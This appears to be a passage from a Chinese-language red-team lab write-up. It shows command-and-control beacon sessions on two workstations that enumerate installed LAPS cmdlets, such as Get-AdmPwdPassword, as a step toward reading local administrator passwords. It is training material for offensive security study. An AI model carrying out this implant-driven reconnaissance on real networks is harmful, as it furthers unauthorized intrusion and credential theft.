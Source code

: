 1661470790012.png



有LAPS的电脑一般预装了LAPS PowerShell cmdlets ，上面枚举到wkstn-1和wkstn-2两台电脑都有



搜索**AdmPwd**相关的命令


在wkstn-1

```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-1

beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 325 bytes
[+] received output:
#< CLIXML

CommandType     Name                                               Version    Source                                   
-----------     ----                                               -------    ------                                   
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS                                
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS                                
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS  
```




在wkstn-2
```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 119 bytes
[+] received output:
#< CLIXML

CommandType     Name                                               Version    Source                                   
-----------     ----                                               -------    ------                                   
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS                                
```